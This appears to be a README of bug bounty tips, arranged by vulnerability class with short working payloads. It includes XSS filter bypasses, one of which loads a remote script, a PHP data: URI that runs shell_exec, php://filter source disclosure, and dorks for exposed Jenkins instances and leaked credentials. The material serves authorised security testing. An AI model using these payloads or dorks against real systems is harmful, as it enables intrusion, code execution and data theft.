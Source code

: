 # Bug Bounty Tips

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- "URL-encoding payload symbols" AND "The fragment(`#`) isn’t sent to the server - this means that no server-side firewall can see it, so it cannot stop attacks coming from this direction."
  - `https://www.bugbountytraining.com/challenges/challenge-10.php#?message=%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
  - `https://www.bugbountytraining.com/challenges/challenge-10.php?message=#%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages"
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
